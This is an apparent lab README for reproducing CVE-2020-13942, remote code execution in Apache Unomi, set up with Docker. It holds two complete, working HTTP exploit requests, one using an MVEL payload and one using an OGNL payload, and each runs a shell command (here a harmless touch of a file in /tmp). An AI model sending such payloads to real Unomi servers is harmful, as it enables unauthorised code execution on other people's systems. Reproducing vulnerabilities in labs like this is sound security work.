

# Apache Unomi Remote Express Language Code Execution (CVE-2020-13942)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Unomi is a Java Open Source customer data platform, a Java server designed to manage customers, leads and visitors’ data and help personalize customers experiences.

In the versions prior to 1.5.1, Apache Unomi allowed remote attackers to send malicious requests with MVEL and OGNL expressions that could contain arbitrary classes, resulting in Remote Code Execution (RCE) with the privileges of the Unomi application.

## Environment Setup

Execute following commands to start an Apache Unomi server 1.5.1:

```
docker-compose up -d
```

After the environment is started, you can access Unomi's API through `http://your-ip:8181` or `https://your-ip:9443`.

## Vulnerability Reproduce

The vulnerability can be triggered through both ports 8181 and 9443.

Execute arbitrary commands through MVEL expressions:

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Execute arbitrary commands through OGNL expressions:

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

Enter the Docker container, you can see that the command has been executed successfully:


